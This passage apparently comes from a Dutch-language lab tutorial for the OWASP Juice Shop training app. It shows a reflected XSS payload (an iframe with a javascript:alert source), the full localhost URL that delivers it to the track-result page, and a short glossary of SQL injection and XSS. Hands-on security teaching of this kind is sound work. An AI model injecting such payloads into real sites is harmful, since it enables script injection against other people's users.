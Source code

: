 ```
<iframe src="javascript:alert(`xss`)">
```

De totaal-URL wordt hiermee: <http://localhost:3000/#/track-result?id=%3Ciframe%20src%3D%22javascript:alert(%60xss%60)%22%3E>

> [!success] Gefeliciteerd! 
> Je hebt nu een XSS aanval uitgevoerd op de Juice Shop.

> [!info]- Begrippenlijst
>- **SQL-injectie**: Een beveiligingskwetsbaarheid waarbij een aanvaller kwaadaardige SQL-code invoegt in een invoerveld, waardoor deze ongeautoriseerde toegang tot de database kan verkrijgen en mogelijk gegevens kan uitlezen of manipuleren.
>- **XSS aanvallen:** Beveiligingskwetsbaarheden waarbij een aanvaller schadelijke scripts injecteert in webpagina's die door andere gebruikers worden bekeken, wat kan leiden tot datadiefstal, sessiekaping, en andere kwaadaardige acties.
